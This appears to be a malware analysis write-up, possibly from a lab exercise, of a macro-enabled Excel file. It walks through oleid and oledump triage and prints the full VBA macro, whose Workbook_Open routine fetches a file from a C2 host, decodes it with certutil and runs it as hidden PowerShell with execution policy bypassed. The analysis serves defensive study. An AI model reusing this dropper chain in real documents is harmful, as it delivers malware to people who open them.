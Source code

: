 # sheetsForFinancial.xlsm

# Identification:

**FileName:** sheetsForFinancial.xlsm

**SHA256:** 16e6489b81a41f0bfc2bc9bb0165b624c51ed4fecf6438c73a5ee6501caf34dc

**FileSize:** 20480 (bytes)

<br>

# Analysis:

The analysis was started by checking if the excel contain macro. For this Oletools were used. Initial triage on the sample was carried out using oleid to check for any macro or remote template injections using the command. 

 `oleid sheetsForFinancial.xlsm`

    oleid 0.60.dev1 - http://decalage.info/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Filename: sheetsForFinancial.xlsm
    --------------------+--------------------+----------+--------------------------
    Indicator           |Value               |Risk      |Description
    --------------------+--------------------+----------+--------------------------
    File format         |MS Excel 2007+      |info      |
                        |Macro-Enabled       |          |
                        |Workbook (.xlsm)    |          |
    --------------------+--------------------+----------+--------------------------
    Container format    |OpenXML             |info      |Container type
    --------------------+--------------------+----------+--------------------------
    Encrypted           |False               |none      |The file is not encrypted
    --------------------+--------------------+----------+--------------------------
    VBA Macros          |Yes, suspicious     |HIGH      |This file contains VBA
                        |                    |          |macros. Suspicious
                        |                    |          |keywords were found. Use
                        |                    |          |olevba and mraptor for
                        |                    |          |more info.
    --------------------+--------------------+----------+--------------------------
    XLM Macros          |No                  |none      |This file does not contain
                        |                    |          |Excel 4/XLM macros.
    --------------------+--------------------+----------+--------------------------
    External            |0                   |none      |External relationships
    Relationships       |                    |          |such as remote templates,
                        |                    |          |remote OLE objects, etc
    --------------------+--------------------+----------+--------------------------

Here, from the result of oleid tool, it was found that this excel file contain VBA macro.

Using the oledump tool, it was then checked which stream contains the macro as shown below.

`oledump.py sheetsForFinancial.xlsm`

    A: xl/vbaProject.bin      
     A1:       468 'PROJECT'  
     A2:        86 'PROJECTwm'
     A3: M    7829 'VBA/Module
     A4: m    1196 'VBA/Sheet1
     A5: m    1204 'VBA/ThisWo
     A6:      3130 'VBA/_VBA_P
     A7:      4020 'VBA/__SRP_
     A8:       272 'VBA/__SRP_
     A9:      3892 'VBA/__SRP_
    A10:       220 'VBA/__SRP_
    A11:       680 'VBA/__SRP_
    A12:       106 'VBA/__SRP_
    A13:       464 'VBA/__SRP_
    A14:       106 'VBA/__SRP_
    A15:       562 'VBA/dir'  

Here, the streams 3, 4 and 5 seems to contain macro.

Again using the oledump tool, the macro from stream 3 was dumped using the command.

`oledump.py -s 3 -v sheetsForFinancial.xlsm`

    Attribute VB_Name = "Module1"
    Function genStr(Length As Integer)
    Dim chars As Variant
    Dim x As Long
    Dim str As String
    
      If Length < 1 Then
        Exit Function
      End If
    
    chars = Array("a", "b", "c", "d", "e", "f", "g", "h", "i", "j", _
      "k", "l", "m", "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", _
      "y", "z", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "!", "@", _
      "#", "$", "%", "^", "&", "*", "A", "B", "C", "D", "E", "F", "G", "H", _
      "I", "J", "K", "L", "M", "N", "O", "P", "Q", "R", "S", "T", "U", "V", _
      "W", "X", "Y", "Z")
      For x = 1 To Length
        Randomize
        str = str & chars(Int((UBound(chars) - LBound(chars) + 1) * Rnd + LBound(chars)))
      Next x
    
      randStr = str
    
    End Function
            Sub Workbook_Open()
                Dim str1: genStr (17)
                Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
                str2 = "wgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWFzLiBEbyB5b3UgbmVlZCBhIG1hbmFnZXI/CgpNdXN0IGdvIGZhc3Rlci4uLiBnbywgZ28sIGdvLCBnbywgZ28hIFRoaXMgdGhpbmcgY29tZXMgZnVsbHkgbG9hZGVkLiBBTS9GTSByYWRpbywgcmVjbGluaW5nIGJ1Y2tldC"
                Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
                str3 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                xHttp.Open "GET", "http://srv3.wonderballfinancial.local/abc123.crt", False
                xHttp.Send
                Dim str9: genStr (10)
                With bStrm
                .Type = 1 '//binary
                .Open
                .write xHttp.responseBody
                .savetofile "encd.crt", 2 '//overwrite
                End With
                str5 = "WQgd2l0aCB0aGUgZmF0IGxhZHkhIERyaXZlIHVzIG91dCBvZiBoZXJlISBGb3JnZXQgdGhlIGZhdCBsYWR5ISBZb3UncmUgb2JzZXNzZWQg"
                str6 = "Z2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZWZ2V0IG15IGVzcHJlc3NvIG1hY2hpbmU/IEp1c3QgbXkgbHVjaywgbm8gaWNlLiBZb3UncmUgYSB2ZXJ5IHRhbGVudGVkIHlvdW5nIG1hbiwgd2l0aCB5b3VyIG93biBjbGV2ZXIgdGhvdWdodHMgYW5kIGlkZW"
                Shell ("cmd /c certutil -decode encd.crt run.ps1 & c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -W Hidden .\run.ps1")
            End Sub


From the VBScipt, it can be seen that: 
- From its C2 'srv3.wonderballfinancial.local', it downloads 'abc123.crt' and save it as 'encd.crt'. 
- It then uses certutil to decode 'encd.crt' and then save it as a PowershellScript 'run.ps1'. 
- Finally, it executes 'run.ps1' script by allowing execution of the unsigned PowerShell script and by hiding its window.  
